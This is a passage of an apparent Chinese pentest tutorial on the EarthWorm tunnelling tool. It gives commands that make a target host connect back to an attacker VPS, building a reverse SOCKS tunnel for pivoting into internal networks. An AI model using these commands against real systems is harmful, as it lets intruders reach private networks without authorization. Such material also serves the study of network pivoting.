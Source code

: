 lcx 链路状态用于打通测试主机同 socks 服务器之间的通路。

lcx_slave 控制管道：一侧通过反弹方式连接代理请求方，另一侧连接代理提供主机。

lcx_tran 转发管道：通过监听本地端口接收代理请求，并转交给代理提供主机。

lcx_listen 监听管道：通过监听本地端口接收数据，并将其转交给目标网络回连的代理提供主机。

通过组合lcx类别管道的特性，可以实现多层内网环境下的渗透测试。



首先在攻击机(vps)上将接收端口转发到指定端口，监听1234端口

```
ew_for_Win.exe -s rcsocks -l 1008 -e 1234
```

![image-20210803215801147](内网穿透工具使用.assets\image-20210803215801147.png)



然后再目标主机上运行指定ip地址的端口

```

ew_for_Win.exe -s rssocks -d 192.168.137.1 -e 1234
```

![image-20210803215917119](内网穿透工具使用.assets\image-20210803215917119.png)



可以再vps上看到连接成功，隧道连接建立![image-20210803215953489](内网穿透工具使用.assets\image-20210803215953489.png)



下面使用代理工具SocksCap64，连接目标代理从而连接目标主机内网

设置端口为上面监听的1234端口
